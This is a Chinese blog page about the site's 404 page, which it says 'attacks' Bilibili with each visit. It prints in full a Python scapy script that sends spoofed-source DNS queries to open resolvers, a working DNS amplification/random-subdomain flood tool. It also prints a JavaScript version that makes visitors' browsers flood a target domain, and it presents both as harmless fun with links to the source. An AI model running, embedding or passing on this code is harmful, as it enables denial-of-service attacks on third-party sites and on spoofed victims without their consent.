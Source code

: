 ```yaml
---
layout: page
permalink: "404page.html"
title:  "关于404页面"
---
```


大家在访问本站没有的页面时是不是会跳转到404页面呢？细心的人肯定会发现网页下方有一段话

>事实上你访问一次404页面就相当于攻击了b站200次哦~

很有趣对吧？

实际上这是使用了*cnBeining*的**DNSTester**。源码如下：

###Python版

{% highlight python %}
#!/usr/bin/env python
#coding:utf-8
# Author:  Beining --<>
# Purpose: A most easy but powerful DNS tester
# Created: 01/15/2015

import os
import sys
import socket
import random
from multiprocessing.dummy import Pool as ThreadPool
from scapy import *
from scapy.all import *
import csv

global DNS_IP_LIST
DNS_IP_LIST = []
global FAKE_IP
FAKE_IP = ''
global SUCCESS
SUCCESS = 0

#----------------------------------------------------------------------
def dns_amp(qname_address):
    """"""
    global SUCCESS
    dns_ip = random.choice(DNS_IP_LIST)
    a = IP(dst=dns_ip,src=FAKE_IP) 
    b = UDP(dport=53)
    c = DNS(id=1,qr=0,opcode=0,tc=0,rd=1,qdcount=1,ancount=0,nscount=0,arcount=0)
    c.qd=DNSQR(qname=qname_address,qtype=1,qclass=1)
    p = a/b/c
    try:
        send(p)
        SUCCESS += 1
    except KeyboardInterrupt:
        print('FATAL: Quit!')
        print('Success: ' + str(SUCCESS))
        exit()
    except Exception as e:
        print('WARNING: DNSTest failed: %s' % e)
        traceback.print_exc()

#----------------------------------------------------------------------
def main(address, time, length, thread_num, fake_ip):
    """"""
    domain_list = [''.join(map(lambda xx:(hex(ord(xx))[2:]),os.urandom(int(length)))) + '.' + str(address) for i in range(int(time))]
    pool = ThreadPool(int(thread_num))
    results = pool.map(dns_amp, domain_list)
    #close the pool and wait for the work to finish 
    pool.close() 
    pool.join()

#----------------------------------------------------------------------
def read_dns_ip(filename = './nameservers.csv'):
    """"""
    dns_ip_list = []
    with open(filename, 'rb') as f:
        reader = csv.reader(f)
        for row in reader:
            if reader.line_num == 1:  
                    continue
            dns_ip_list.append(row[0])
    return dns_ip_list

#----------------------------------------------------------------------
if __name__=='__main__':
    address = str(sys.argv[1])
    time = int(sys.argv[2])
    thread_num = int(sys.argv[3])
    try:
        FAKE_IP = str(sys.argv[4])
    except:
        FAKE_IP = socket.getaddrinfo("www." + address, 80, 0, 0, socket.SOL_TCP)[0][4][0]
    try:
        dns_filename = str(sys.argv[5])
    except:
        dns_filename = './nameservers.csv'
    try:
        length = int(sys.argv[6])
    except:
        length = random.randint(6, 32)
    print('Reading DNS IP list...')
    DNS_IP_LIST = read_dns_ip(dns_filename)
    print('Start!')
    main(address, time, length, thread_num, FAKE_IP)
    print('Done! Success: ' + str(SUCCESS))
{% endhighlight %}

[Github](https://github.com/cnbeining/DNSTester)

###javascript版：

{% highlight javascript %}
/*!
 * DNSTester.js 0.0.35
 * https://github.com/cnbeining/DNSTester.js
 * http://www.cnbeining.com/
 *
 * Includes jQuery
 * http://jquery.com/
 * 
 * Copyright 2015 Beining
 * Released under the GNU GENERAL PUBLIC LICENSE Version 2
 * https://github.com/cnbeining/DNSTester.js/blob/master/LICENSE
 *
 */
var COUNT = 0;
var STARTTIME = (new Date).getTime();
var DOMAIN = ".baidu.com/"; //Change me in caller
var MAX_COUNT = 50000;  //Change me in caller
var TPS = 100;  //Change me in caller
var TIMERID = 0; //To stop the test
function makeid_old(length)
{
    var text = "";
    var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for( var i=0; i < length; i++ )
        text += possible.charAt(Math.floor(Math.random() * possible.length));
    return text;
}
function makeid_new(len) {
    //Only avalable in new browsers
    var arr = new Uint8Array((len || 40) / 2);
    window.crypto.getRandomValues(arr);
    text = [].map.call(arr, function(n) { return n.toString(16); }).join("");
    return text;
}
makeid = makeid_new; //asserting
try {
    test_msg = makeid(5)
}
catch(err) {
    console.log("New function not supported! " + err);
    makeid = makeid_old;
}
function r_send2() {
    if ((MAX_COUNT < 1 || COUNT >= MAX_COUNT) != true) {
          get("https://" + makeid(Math.floor((Math.random() * 64) + 1)) + DOMAIN) // NEVER FORGET, in case you use HTTPS
      };
    if (COUNT % 1000 == 0) { //report every 1000 times
          console.log('Done: ' + COUNT.toString())
      };
}
function get(a) {
    var b;
    $.ajax({
        url: a,
        dataType: "script",
        timeout: 1E-2, //So fail immediately, but good enough to stress DNS
        cache: !0,
        // beforeSend: function() {
        // requestTime = (new Date).getTime()
        // },
        complete: function() {
            COUNT += 1;
        }
        })
}
function r_send(a) {
    TIMERID = setInterval("r_send2()", a)
}
{% endhighlight %}

大家可以在[这里](/js/dnstester.js)或者[Github](https://github.com/cnbeining/DNSTester.js)上找到源码和使用方式。

***

404页面中设置的只有2秒，每秒100次而已，对b站基本上一点影响也没有，除非有很多人大量访问404页面，同样也是不可能的，所以只是增加404娱乐性，大可不必担心。

点开右边侧栏中的*cnBeining*页面，你会发现更多有趣的东西~